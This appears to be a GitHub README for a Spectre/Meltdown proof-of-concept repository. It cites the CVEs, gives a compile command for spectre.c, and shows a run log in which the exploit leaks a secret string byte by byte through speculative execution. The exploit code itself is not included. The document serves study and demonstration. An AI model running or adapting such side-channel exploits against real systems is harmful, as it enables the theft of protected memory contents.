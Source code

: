 # meltdown_spectre

# Meltdown
CVE-2017-5754 is the official reference to Meltdown. 
https://meltdownattack.com/meltdown.pdf

# Spectre
CVE-2017-5753 and CVE-2017-5715 are the official references to Spectre.
https://spectreattack.com/spectre.pdf

To Compile on ubuntu 16.04

    # gcc spectre.c -o spectre
 
Thank you to https://gist.github.com/ErikAugust/724d4a969fb2c6ae1bbd7b2a9e3d4bb6 for this code.  I modified it to work on ubuntu-xenial-16.04-amd64-server-20170721 (ami-cd0f5cb6)
    
# Sample Output

    root@brakerubuntu:/tmp/src]# ./spectre
    Reading 40 bytes:
    Reading at malicious_x = 0xffffffffffdfebb8... Success: 0x54=’T’ score=2
    Reading at malicious_x = 0xffffffffffdfebb9... Success: 0x68=’h’ score=2
    Reading at malicious_x = 0xffffffffffdfebba... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebbb... Success: 0x20=’ ’ score=7 (second best: 0xDE score=1)
    Reading at malicious_x = 0xffffffffffdfebbc... Success: 0x4D=’M’ score=2
    Reading at malicious_x = 0xffffffffffdfebbd... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebbe... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebbf... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebc0... Success: 0x63=’c’ score=2
    Reading at malicious_x = 0xffffffffffdfebc1... Success: 0x20=’ ’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc2... Success: 0x57=’W’ score=2
    Reading at malicious_x = 0xffffffffffdfebc3... Success: 0x6F=’o’ score=2
    Reading at malicious_x = 0xffffffffffdfebc4... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebc5... Success: 0x64=’d’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc6... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebc7... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebc8... Success: 0x61=’a’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebc9... Success: 0x72=’r’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebca... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebcb... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebcc... Success: 0x53=’S’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcd... Success: 0x71=’q’ score=2
    Reading at malicious_x = 0xffffffffffdfebce... Success: 0x75=’u’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebcf... Success: 0x65=’e’ score=2
    Reading at malicious_x = 0xffffffffffdfebd0... Success: 0x61=’a’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd1... Success: 0x6D=’m’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd2... Success: 0x69=’i’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd3... Success: 0x73=’s’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebd4... Success: 0x68=’h’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd5... Success: 0x20=’ ’ score=2
    Reading at malicious_x = 0xffffffffffdfebd6... Success: 0x4F=’O’ score=7 (second best: 0x05 score=1)
    Reading at malicious_x = 0xffffffffffdfebd7... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd8... Success: 0x73=’s’ score=2
    Reading at malicious_x = 0xffffffffffdfebd9... Success: 0x69=’i’ score=2
    Reading at malicious_x = 0xffffffffffdfebda... Success: 0x66=’f’ score=2
    Reading at malicious_x = 0xffffffffffdfebdb... Success: 0x72=’r’ score=2
    Reading at malicious_x = 0xffffffffffdfebdc... Success: 0x61=’a’ score=2
    Reading at malicious_x = 0xffffffffffdfebdd... Success: 0x67=’g’ score=2
    Reading at malicious_x = 0xffffffffffdfebde... Success: 0x65=’e’ score=7 (second best: 0x00 score=1)
    Reading at malicious_x = 0xffffffffffdfebdf... Success: 0x2E=’.’ score=2
